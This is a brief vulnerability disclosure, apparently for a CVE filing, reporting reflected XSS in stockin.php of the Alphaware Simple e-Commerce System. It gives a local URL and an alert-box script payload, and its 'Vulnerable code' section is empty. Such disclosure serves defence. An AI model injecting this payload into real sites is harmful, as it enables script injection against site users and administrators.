


## Alphaware e-Commerce system has XSS vulnerability

## XSS

Enter the administrator background page

http://127.0.0.1/cve/admin/stockin.php?id=3

There is an xss vulnerability in the stockin.php file

Enter XSS payload

```
'"><script>alert(/xss/)</script>
```



The page successfully pops up XSS, the vulnerability exists


## Vulnerable code




## link

https://www.sourcecodester.com/php/11676/alphaware-simple-e-commerce-system.html